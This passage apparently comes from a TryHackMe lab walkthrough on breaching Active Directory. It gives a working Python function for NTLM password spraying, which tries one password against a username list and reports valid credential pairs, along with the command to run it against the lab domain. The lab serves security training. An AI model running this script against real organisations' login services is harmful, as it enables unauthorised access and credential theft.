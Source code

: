 We could use tools such as [Hydra](https://github.com/vanhauser-thc/thc-hydra) to assist with the password spraying attack. However, it is often better to script up these types of attacks yourself, which allows you more control over the process. A base python script has been provided in the task files that can be used for the password spraying attack. The following function is the main component of the script:

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

This function takes our suggested password and the URL that we are targeting as input and attempts to authenticate to the URL with each username in the textfile. By monitoring the differences in HTTP response codes from the application, we can determine if the credential pair is valid or not. If the credential pair is valid, the application would respond with a 200 HTTP (OK) code. If the pair is invalid, the application will return a 401 HTTP (Unauthorised) code.

Password Spraying  

If you are using the AttackBox, the password spraying script and usernames textfile is provided under the `/root/Rooms/BreachingAD/task3/` directory. We can run the script using the following command:

```php
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

We provide the following values for each of the parameters:

- `<userfile>` - Textfile containing our usernames - _"usernames.txt"_
- `<fqdn>` - Fully qualified domain name associated with the organisation that we are attacking - _"za.tryhackme.com"_
- `<password>` - The password we want to use for our spraying attack - _"Changeme123"_
- `<attackurl>` - The URL of the application that supports Windows Authentication - _"http://ntlmauth.za.tryhackme.com"_

Using these parameters, we should get a few valid credentials pairs from our password spraying attack.

NTLM Password Spraying Attack
